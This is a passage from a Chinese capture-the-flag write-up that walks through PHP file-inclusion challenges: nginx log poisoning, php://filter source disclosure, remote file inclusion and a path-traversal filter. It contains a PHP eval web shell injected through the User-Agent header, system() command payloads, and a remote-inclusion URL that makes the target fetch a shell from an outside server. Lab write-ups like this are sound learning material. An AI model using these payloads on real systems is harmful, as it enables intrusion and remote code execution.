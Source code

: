 ```python
    threads.append(t)

# 主线程等待事件
try:
    while not stop_event.is_set():
        time.sleep(0.5)
except KeyboardInterrupt:
    stop_event.set()

for t in threads:
    t.join()

```
# 第三章


## 日志文件包含 

文件包含加上ua头bro，nginx的日志路径是`/var/log/nginx/access.log`  

先GET传个ua头的马上去`<?php eval($_GET['cmd']); ?>`，然后post拿flag,`/?cmd=system('cat%20flag.php');`

##  php://filter读取源码

先读源码`php://filter/convert.base64-encode/resource=index.php`，有个`db.php`，继续读`php://filter/convert.base64-encode/resource=db.php`，拿到flag

## 远程文件包含（RFI）

vps起个python服务，让靶机下个马，然后读flag

> https://f5c7f449-1057-46e6-b493-f2217cb1f51a.challenge.ctf.show/?path=http://121.41.100.198:9001/1.txt&1=system(%27tac%20f*%27);

## 路径遍历突破 

先看看源码，输入`index.php`即可

核心代码

```php
<?php

if (isset($_GET['path']) && $_GET['path'] !== '') {
$path = $_GET['path'];
if(preg_match('/data|log|access|pear|tmp|zlib|filter|:/', $path) ){
echo '<span style="color:#f00;">禁止访问敏感目录或文件</span>';
exit;
}

#禁止以/或者../开头的文件名
if(preg_match('/^(\.|\/)/', $path)){
echo '<span style="color:#f00;">禁止以/或者../开头的文件名</span>';
exit;
}

echo $path."内容为：\n";
echo str_replace("\n", "<br>", htmlspecialchars(file_get_contents($path)));
} else {
echo '<span style="color:#888;">目标flag文件为/flag.txt</span>';
}
?>
```
